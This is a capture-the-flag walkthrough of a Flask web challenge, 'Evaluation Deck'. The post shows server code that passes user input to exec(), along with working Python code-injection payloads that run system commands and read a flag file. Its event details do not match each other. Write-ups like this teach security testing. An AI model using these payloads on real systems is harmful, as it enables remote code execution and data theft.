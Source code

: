 ```yaml
---
title: "Evaluation Deck"
date: 2023-07-16 00:00:00 +0800
categories: [Walkthrough, Hack The Box]
tags: [Hack The Boo 2022]
---
```


## Details
- Platform: [AmateursCTF](/categories/hack-the-box/)
- Event: [AmateursCTF 2023](/tags/hack-the-boo-2022/)

## Setting
>  A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Walkthrough
Firstly I just played the game to understand the intended functionality.
![img1](/assets/img/Screenshot 2022-10-23 at 01.05.43.png)
_Evaluation Deck - Mid Game_

To be honest, I had no idea what was going on at first. I turned over some cards and the ghost would seemingly get dealt some damage or for some reason restore its health. I couldnt see any correlation to the damage or health restoration in the GUI, so I decided to look for answers in the source code.
![img2](/assets/img/Screenshot 2022-10-23 at 01.06.00.png)
_Evaluation Deck - Victory State_

Looking through the source code, I found power and operator attributes which looked interesting. It seemed like they were being used to calculate damage to the ghost. The `operator` attribute for decreasing or adding health, and the `power` attribute to specify how much. If that calculation is done on the server, this could lead to some code injection.
![img3](/assets/img/Pasted image 20221028162029.png)
_power and operator attributes!_

I tested it out by changing the `power` and `operator` attribute values and I could now control the game. I was now able to lose. It's actually really difficult to lose this game 😂

![img4](/assets/img/Screenshot 2022-10-23 at 01.07.54.png)
_Evaluation Deck - Game Over State_

I couldn't find any Javascript scripts doing any health management logic, so I checked out the requests made. I tapped a card and saw that a request was made to `/api/get_health` with the following JSON payload:
```json
{
	"current_health":"100",
	"attack_power":"20",
	"operator":"-"
}
```

If you check the provided code, you can see that the application is made with Python and Flask, but you could also find this out with some OSINT and/or Enumeration.

Time to try some code injection. You could argue that `attack_power` is a number so it might be limited to or parsed as a number on the backend, but you could also argue that there is only 2 operaters used in the game and there might be a filter to see if the input is one of those 2 operators. So going in blind, I would just try both.
But as we have the code, we can see that the operator has no restrictions on it.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power') #← html attribute 1 
    operator = data.get('operator') #← html attribute 2
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec') #← compile() is used. major red flag!
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

the f-string `f'result = {int(current_health)} {operator} {int(attack_power)}'` shows the operator variable is plopped in the middle with no filtering or casting, so I crafted a python payload to test if I could run some system level commands:

```json
{
	"current_health":"100",
	"attack_power":"78",
	"operator":"if False else __import__('subprocess').run(['ls', '../', '-la'], capture_output=True).stdout.decode('ASCII')#"
}
```

and I could!

```json
"message": "total 72\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 .\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 ..\ndrwxr-xr-x 1 root root 4096 Oct 21 15:07 app\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 bin\ndrwxr-xr-x 5 root root 360 Oct 22 15:45 dev\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 etc\n-rw-r--r-- 1 root root 32 Oct 21 13:33 flag.txt\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 home\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 lib\ndrwxr-xr-x 5 root root 4096 Aug 9 08:47 media\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 mnt\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 opt\ndr-xr-xr-x 376 root root 0 Oct 22 15:45 proc\ndrwx------ 1 root root 4096 Oct 21 15:06 root\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 run\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 sbin\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 srv\ndr-xr-xr-x 13 root root 0 Oct 22 15:45 sys\ndrwxrwxrwt 1 root root 4096 Oct 22 15:45 tmp\ndrwxr-xr-x 1 root root 4096 Oct 21 15:06 usr\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 var\n"
```

Now I know I have access to the server, I could try to get a reverse shell, but knowing where the flag is due to the provided code, I could just change the system command to `cat` the flag (print it out to the standard output).

```json
{
	"current_health":"100",
	"attack_power":"78",
	"operator":"if False else __import__('subprocess').run(['cat', '../flag.txt'], capture_output=True).stdout.decode('ASCII')#"
}
```

and the response sends back the flag!

```json
{
	"message": "HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"
}
```

#### Alternative Payload
Looking at the backend code, I know that the variable `result` stores the message that the server is sending back to me:
```python
result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec') #← compile() is used. red flag!
        exec(code, result) #← exec() is used with compile(). major red flag!
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

So I could alternatively use a payload where I set `result` to the contents of the flag:
```json
{
	"current_health":"100",
	"attack_power":"65",
	"operator":";result=open('../flag.txt').read()#"
}
```